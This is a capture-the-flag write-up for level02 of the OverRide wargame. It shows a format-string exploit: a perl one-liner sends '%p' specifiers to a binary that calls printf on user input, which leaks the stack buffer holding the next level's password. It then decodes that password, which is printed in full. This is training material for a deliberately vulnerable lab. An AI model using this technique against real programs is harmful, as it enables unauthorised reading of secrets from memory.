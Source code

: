 # level02

The binary compares our input to the data of `/home/users/level03/.pass`.

```
level02@OverRide:~$ perl -e 'print "%p "x30 . "\n"' | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe4f0 (nil) (nil) 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6e8 0x1f7ff9a08 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070  does not have access!
```
The program will print our input username by calling `printf` directly with our input as format string. So we can use the uncontrolled format string to show us the values of stack which contains the buffer who holds the password data.

```
level02@OverRide:~$ pass="0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d"
level02@OverRide:~$ for fragment in $pass
> do
> echo $fragment | xxd -r | rev | tr -d "\n"
> done; echo
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
The password data in the stack is in little endian format. After reversing it, we got the password.
